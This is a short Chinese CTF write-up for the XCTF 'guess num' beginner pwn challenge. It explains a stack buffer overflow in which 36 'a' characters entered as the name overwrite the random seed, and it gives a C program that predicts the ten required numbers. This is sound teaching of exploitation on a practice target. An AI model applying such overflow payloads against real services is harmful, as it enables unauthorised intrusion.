





# Write Up

## 题目：[攻防世界PWN新手入门题——guess num](https://adworld.xctf.org.cn/task/writeup?type=pwn&id=5057&number=2&grade=0&page=1)

## 解题过程

使用nc连接题目中给的地址，发现需要输入自己的名字和数字



下载题目给的附件，使用ida打开，找到main函数之后，反汇编查看源码如下



源码中使用种子生产了随机数，用户需要输入10次正确的随机数就能过关。在C语言中，主要随机数种子一致，生成的随机数就是一样的。

因此我们可以在输入用户姓名时溢出覆盖随机数种子。然后本地使用该种子生成10个随机数输入。



用户姓名储存在v9中，使用的种子是seed数组的首地址。且两个变量都是main函数的局部变量，因此都在rbp的低地址，变量地址偏移20h（30h-10h），因此输入36个a，32个a为变量之间的偏移，4个用于覆盖seed[0]的unsigned int变量（4个字节）


```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
编写如下C语言代码
```c
#include<stdio.h>
#include<stdlib.h>
int main()
{
        srand(0x61616161);
        int num = 0;
        for(int i = 0;i < 10;i++)
        {
                num = rand() % 6 + 1;
                printf("%d\n",num);
        }
        return 0;
}
```

生成10个随机数



获得flag



## 参考

- [攻防世界writeup](https://adworld.xctf.org.cn/task/writeup?type=pwn&id=5057&number=2&grade=0&page=1)

